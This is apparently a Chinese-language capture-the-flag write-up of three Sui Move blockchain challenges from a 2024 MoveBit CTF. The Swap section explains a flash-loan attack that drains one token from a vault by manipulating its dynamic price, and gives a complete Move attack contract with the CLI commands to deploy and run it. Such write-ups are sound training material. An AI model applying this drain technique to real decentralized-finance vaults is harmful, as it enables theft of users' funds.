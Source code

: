 - [题目源码](https://github.com/movebit/ctf2024-day1)
- # Checkin
	- 配置好环境后直接调用函数
		- ```shell
		  sui client call \
		      --function get_flag \
		      --package 0x97150d448029e8f3a5297e91a7fbbc13c7462878f3bce95586d103afc00b57dd \
		      --module checkin \
		      --gas-budget 10000000 \
		      --args 'MoveBitCTF'
		  ```
- # DynamicMatrixTraversal
	- 让合约算出一个数组并从中拿出所需数字
	- 数组如下：
		- ```python
		  import numpy as np
		  
		  m, n = 10, 200
		  a = np.zeros([m, n]).astype(np.int64)
		  for i in range(m):
		      a[i, 0] = 1
		  for j in range(n):
		      a[0, j] = 1
		  
		  for i in range(1, m):
		      for j in range(1, n):
		          a[i, j] = a[i-1, j] + a[i, j-1]
		  print(a)
		  ```
	- 传入对应数组的宽和高即可拿到transaction flag
		- ```shell
		  sui client call \
		      --gas-budget 10000000 \
		      --package 0x448e1b7cb16ce0a814e04e6d2961b42adfef8cba1cdf4a943cd64d322283207d \
		      --module matrix \
		      --function execute \
		      --args '0x2f660040e3e3cb08f547b9dee1146741e8140433c03c63d37bfb163715383df8' \
		      --args 5 \
		      --args 89
		  
		  sui client call \
		      --gas-budget 10000000 \
		      --package 0x448e1b7cb16ce0a814e04e6d2961b42adfef8cba1cdf4a943cd64d322283207d \
		      --module matrix \
		      --function execute \
		      --args '0x2f660040e3e3cb08f547b9dee1146741e8140433c03c63d37bfb163715383df8' \
		      --args 169 \
		      --args 3
		  
		  
		  sui client call \
		      --gas-budget 10000000 \
		      --package 0x448e1b7cb16ce0a814e04e6d2961b42adfef8cba1cdf4a943cd64d322283207d \
		      --module matrix \
		      --function get_flag \
		      --args '0x2f660040e3e3cb08f547b9dee1146741e8140433c03c63d37bfb163715383df8'
		  ```
- # Swap
	- 分析
		- vault的功能有
			- flash: 从vault中拿走一定量的某种token，返还后才能进行下一次flash
			- swap: 用一种token交换另一种token，价格根据vault中的所有token动态计算
		- 思路
			- 可以从vault中借走多个A, 造成A稀缺，然后用A换走所有的B，最后返还A，这样就清空了vault中的B
		- 攻击过程如下：
			- ```python
			  # 初始
			  vault = (100, 100); user = (20, 20)
			  # 从valut拿走90个A
			  vault = (10, 100); user = (110, 20)
			  # 用10个A换B
			  vault = (20, 0); user = (100, 120)
			  # 把90个A还回去
			  vault = (110, 0); user = (10, 120)
			  # 借110个A
			  vault = (0, 0); user = (120, 120)
			  ```
	- 代码
		- 合约代码如下：
		  collapsed:: true
			- ```python
			  module moveattack::attack {
			      use sui::tx_context::{TxContext};
			      use sui::coin::{Self, Coin};
			      use sui::transfer;
			      use sui::balance::{Self, Balance};
			      use sui::object::{Self, UID};
			      use swap::ctfa::{CTFA};
			      use swap::ctfb::{CTFB};
			      use swap::vault;
			  
			      struct TrashBin has key, store {
			          id: UID,
			          coin_a: Balance<CTFA>,
			          coin_b: Balance<CTFB>,
			      }
			  
			      public entry fun start(thevault: &mut vault::Vault<CTFA, CTFB>, usercoina: Coin<CTFA>, ctx: &mut TxContext){
			          // step1
			          
			          let (coina_1, coinb_1, receipt) = vault::flash<CTFA, CTFB>(thevault, 90, false, ctx);
			          let balancea = coin::into_balance(coina_1);
			          let balanceb = coin::into_balance(coinb_1);
			  
			          balance::join(&mut balancea, coin::into_balance(usercoina));
			  
			          // balancea: 110, balanceb: 0
			  
			          // step2
			  
			          let coina2 = coin::from_balance(balance::split(&mut balancea, 10), ctx);
			          let coinb2 = vault::swap_a_to_b<CTFA, CTFB>(
			              thevault,
			              coina2,
			              ctx
			          );
			          // balance::join(&mut balancea, coin::into_balance(coina2));
			          balance::join(&mut balanceb, coin::into_balance(coinb2));
			  
			          // step3
			  
			          vault::repay_flash<CTFA, CTFB>(
			              thevault,
			              coin::from_balance(balance::split(&mut balancea, 90), ctx),
			              coin::from_balance(balance::split(&mut balanceb, 0), ctx),
			              receipt
			          );
			  
			          // step4
			          let (coina_4, coinb_4, receipt2) = vault::flash<CTFA, CTFB>(thevault, 110, false, ctx);
			  
			          // done
			          vault::get_flag<CTFA, CTFB>(thevault, ctx);
			  
			          // get money back
			          vault::repay_flash<CTFA, CTFB>(
			              thevault,
			              coina_4,
			              coinb_4,
			              receipt2
			          );
			  
			          let trashbin = TrashBin{
			              id: object::new(ctx),
			              coin_a: balancea,
			              coin_b: balanceb,
			          };
			          transfer::share_object(trashbin);
			      }
			  
			  }
			  ```
		- 调用过程如下：
		  collapsed:: true
			- ```shell
			  sui client publish --gas-budget 100000000 moveattack/
			  # package 0x109585d77f16e551d3c15c643ad168ecc5a6a9780c0f9323f0a1c1779bce81a7
			  # 0x2edd75f752cd0d0b30d10d75adf6204ab3e3c0a7c3826c2551b7674e4b471f75::ctfa::CTFA
			  sui client call \
			      --gas-budget 10000000 \
			      --package 0x2edd75f752cd0d0b30d10d75adf6204ab3e3c0a7c3826c2551b7674e4b471f75 \
			      --module vault \
			      --function initialize \
			      --type-args '0x2edd75f752cd0d0b30d10d75adf6204ab3e3c0a7c3826c2551b7674e4b471f75::ctfa::CTFA' \
			      --type-args '0x2edd75f752cd0d0b30d10d75adf6204ab3e3c0a7c3826c2551b7674e4b471f75::ctfb::CTFB' \
			      --args '0xb4b25bdac5b66661f81c1b13b2185f481f4a3c1cd4a3c7a4df0e1fd948fa0253' \
			      --args '0x19003d5893c3bf4c588e1999b5b0e7fb497194375a7d87891894260f995368cc'
			  
			  # 7kMrWMzjMiqDZdXQvHhJmKCSjkwL5GhqEixaEQdvMXK3
			  # coina 0x868ee2a6241017c715dafe8073c8a72aaf0ef8ebd329d05210ffb4d05e813808
			  # coinb 0xf9c4750b6e07f688529dd191bb6d823ac39fb079d05597bb5e6cf0ab556beafb
			  # vault 0xbc03d8c9d5b4d1443651e2a07dbb13b4837fa7e234a8264c2685466e0207124a
			  sui client call \
			      --gas-budget 10000000 \
			      --package 0x109585d77f16e551d3c15c643ad168ecc5a6a9780c0f9323f0a1c1779bce81a7 \
			      --module attack \
			      --function start \
			      --args '0xbc03d8c9d5b4d1443651e2a07dbb13b4837fa7e234a8264c2685466e0207124a' \
			      --args '0x868ee2a6241017c715dafe8073c8a72aaf0ef8ebd329d05210ffb4d05e813808'
			  
			  ```
-